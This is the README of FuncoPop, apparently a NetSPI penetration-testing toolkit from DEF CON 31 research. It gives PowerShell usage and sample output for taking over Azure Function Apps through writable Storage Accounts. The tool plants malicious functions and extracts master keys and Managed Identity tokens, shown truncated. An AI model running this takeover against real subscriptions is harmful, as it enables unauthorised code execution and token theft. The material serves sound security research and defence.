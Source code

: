![FuncoPopLogo](https://notpayloads.blob.core.windows.net/images/FuncoPop-bg-final.png)
<br> 
[![licence badge]][licence] 
[![stars badge]][stars] 
[![forks badge]][forks] 
[![issues badge]][issues]

![Twitter Follow](https://img.shields.io/twitter/follow/kfosaaen.svg?style=social)
![Twitter Follow](https://img.shields.io/twitter/follow/thomas_elling.svg?style=social)

[licence badge]:https://img.shields.io/badge/license-New%20BSD-blue.svg
[stars badge]:https://img.shields.io/github/stars/NetSPI/FuncoPop.svg
[forks badge]:https://img.shields.io/github/forks/NetSPI/FuncoPop.svg
[issues badge]:https://img.shields.io/github/issues/NetSPI/FuncoPop.svg


[licence]:https://github.com/NetSPI/FuncoPop/blob/master/LICENSE.txt
[stars]:https://github.com/NetSPI/FuncoPop/stargazers
[forks]:https://github.com/NetSPI/FuncoPop/network
[issues]:https://github.com/NetSPI/FuncoPop/issues


### FuncoPop: PowerShell Tools for Attacking Azure Function Apps

FuncoPop includes functions and scripts that support attacking Azure Funtion Apps, primarily through exploiting Storage Account Access. In many environments, users are granted generous Storage Account permissions (Storage Account Contributor) in Azure RBAC, resulting in access to Storage Accounts that support Function Apps. This unintended cross-service access can give an attacker the ability to pivot through Storage Accounts to gain access to Function Apps. This access includes visibility into the Funtion App keys, ability to run code in the Function App containers, and the ability to access Managed Identities attached to the Function Apps.

These tools were initially released as part of the "What the Function: A Deep Dive into Azure Function App Security" talk from the DEF CON 31 Cloud Village.

### Author, Contributors, and License
* Author:
	* Thomas Elling ([@thomaselling](https://twitter.com/thomas_elling)), NetSPI
	* Karl Fosaaen ([@kfosaaen](https://twitter.com/kfosaaen)), NetSPI
* License: BSD 3-Clause
* Required Dependencies: Az PowerShell Module

### Tool Usage
There are two parts to this tool - Extraction and Decryption

## Key Extraction
In order to run the key extraction tool, you will need to have an authenticated Azure (Az) PowerShell login with some role that allows Read/Write access to a vulnerable Function App Storage Account. In Powershell, you will need to import the function in order to run it.

**Importing the function:**
	`Import-Module .\Invoke-AzFunctionAppTakeover.ps1`

Once imported, you can run the function:
  `Invoke-AzFunctionAppTakeover -Verbose`

```
VERBOSE: Currently logged in via Az PowerShell as kfosaaen@notatenant.com
VERBOSE: Use Connect-AzAccount to change your user
VERBOSE: Dumping Function App information for Selected Subscriptions...
VERBOSE:    Enumerating Function App attached Storage Accounts in the TestEnvironment subscription
VERBOSE:            Function App Storage Account Found - POCstorageAccount1 - mystarterapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount2 - importantbankingapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount2 - lessimportantbankingapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount3 - managedidentityfunction Function App
[Truncated]
VERBOSE:    15 Function App Storage Accounts Enumerated in the Subscription
VERBOSE:    Dumping Function App information for selected Storage Accounts
VERBOSE:            Determining Function App Language of the managedidentityfunction function in the POCstorageAccount3 Storage Account
VERBOSE:                    Reviewing the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET folder found in the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET file found in the site/wwwroot/HttpTrigger1 folder in the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET file found in the site/wwwroot/HttpTrigger2 folder in the managedidentityfunctiona16a File Share
VERBOSE:                            Attempting to add a new ASP.NET function to the managedidentityfunctiona16a File Share in the POCstorageAccount3 Storage Account
VERBOSE:                                    Creating the MFRgBWvsDIlkyfT folder in the managedidentityfunctiona16a File Share in the POCstorageAccount3 Storage Account and uploading files
VERBOSE:                                    Sleeping for 60 seconds before calling the new function
VERBOSE:                                    Calling the new function (until it stops 404-ing) to return the tokens and decryption key, this may take a while...
VERBOSE:                                            Avoid hitting ctrl+C to break out of this, you will need to manually remove the added Storage Account files in order to clean up
VERBOSE:                                    Removing the files from the Storage Account
VERBOSE:            Completed attacking the managedidentityfunction Function App in the managedidentityfunctiona16a File Share

FunctionApp        : managedidentityfunction
EncryptedMasterKey : bm9[Truncated]=
EncryptionKey      : 1B1[Truncated]9
ManagementToken    : eyJ[Truncated]g
VaultToken         : eyJ[Truncated]g
GraphToken         : eyJ[Truncated]Q

VERBOSE: All Function App / Storage Account attacks have completed
```

The function will prompt you to select a Subscription to attack. Once it has enumerated vulnerable Storage Accounts, you will be prompted with a list of accounts to attack. Select the ones you want to attack and the function will add malicious functions to the Storage Accounts, and attempt to execute them. These malicious functions will return the decryption key for the Function App Master Key, along with Managed Identity tokens (*if available).

Please note that the function supports PowerShell, ASP.NET, Python, and Node for payloads. At this time, attacking Java Function Apps is not supported, but may be added in the future.

Required Module to install:
* <a href="https://docs.microsoft.com/en-us/powershell/azure/new-azureps-module-az?view=azps-3.6.1">Az</a>

## Key Decryption
The easiest way to decrypt the keys returned from the PowerShell function is to run the Function App that we created to do the decryption.
### Host your own Function App to decrypt the keys
Use the following Deploy button to deploy a function app to your Azure subscription that can be used to decrypt the extracted keys.

[![Deploy to Azure](https://github.com/Azure-Samples/function-app-arm-templates/blob/main/images/deploytoazure.png?raw=true)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FNetSPI%2FFuncoPop%2Fmain%2Fazuredeploy.json)

![image](https://github.com/NetSPI/FuncoPop/assets/2163397/64504f17-d872-4094-9106-5f2fe4be03b7)




### Related Blogs
* <a href="https://www.netspi.com/blog/technical/cloud-penetration-testing/what-the-function-decrypting-azure-function-app-keys/">What the Function: Decrypting Azure Function App Keys</a>
* <a href="https://blog.netspi.com/lateral-movement-azure-app-services/">Lateral Movement in Azure App Services</a>

### Presentations
* <a href="https://www.youtube.com/watch?v=f0ryxWuNzT4">What the Function: A Deep Dive into Azure Function App Security - DEF CON 31 - Cloud Village</a>
  - <a href="https://github.com/NetSPI/FuncoPop/blob/main/WhatTheFunction-DC31_CV.pdf">Slides</a>
* <a href="https://www.youtube.com/live/VI76DUQ4DHI?t=15313s">What the Function: A Deep Dive into Azure Function App Security - BSides PDX 2024</a>
  - <a href="https://github.com/NetSPI/FuncoPop/blob/main/WhatTheFunction-2024-BSidesPDX.pdf">Slides</a>

### Previous Research
* <a href="https://rogierdijkman.medium.com/privilege-escalation-via-storage-accounts-bca24373cc2e">Rogier Dijkman - Privilege Escalation via storage accounts</a>
* <a href="https://orca.security/resources/blog/azure-shared-key-authorization-exploitation/">Roi Nisimi - From listKeys to Glory: How We Achieved a Subscription Privilege Escalation and RCE by Abusing Azure Storage Account Keys</a>
* <a href="https://msrc.microsoft.com/blog/2023/04/best-practices-regarding-azure-storage-keys-azure-functions-and-azure-role-based-access/">MSRC - Best practices regarding Azure Storage Keys, Azure Functions, and Azure Role Based Access</a>
* <a href="https://medium.com/xm-cyber/10-ways-of-gaining-control-over-azure-function-apps-7e7b84367ce6">Bill Ben Haim & Zur Ulianitzky - 10 ways of gaining control over Azure function Apps</a>
* <a href="https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95">Andy Robbins – Abusing Azure App Service Managed Identity Assignments</a>
* <a href="https://whiteknightlabs.com/2024/05/07/abusing-azure-logic-apps-part-1/">Chirag Savla and Raunak Parmar – Abusing Azure Logic Apps – Part 1</a>


	
